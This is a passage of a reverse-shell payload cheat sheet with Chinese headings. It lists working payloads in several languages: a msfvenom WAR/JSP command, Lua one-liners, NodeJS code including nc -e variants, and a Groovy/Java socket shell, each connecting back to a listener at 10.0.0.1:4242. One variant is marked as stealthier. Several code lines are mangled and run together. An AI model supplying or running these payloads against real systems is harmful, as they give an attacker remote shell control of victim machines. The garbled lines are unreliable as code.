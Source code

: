 ### War

```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.warstrings reverse.war | grep jsp # in order to get the name of the file
```


### Lua

仅限 Linux

```powershell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

Windows 和 Linux

```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```javascript
(function(){    var net = require("net"),        cp = require("child_process"),        sh = cp.spawn("/bin/sh", []);    var client = new net.Socket();    client.connect(4242, "10.0.0.1", function(){        client.pipe(sh.stdin);        sh.stdout.pipe(client);        sh.stderr.pipe(client);    });    return /a/; // Prevents the Node.js application form crashing})();orrequire('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')or-var x = global.process.mainModule.require-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')orhttps://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```

### Groovy

by：[frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

java 反向 shell 也适用于 Groovy

```java
String host="10.0.0.1";int port=4242;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Groovy 替代方案 1

这更隐蔽

```java
Thread.start {    //此处反向 shell }
```
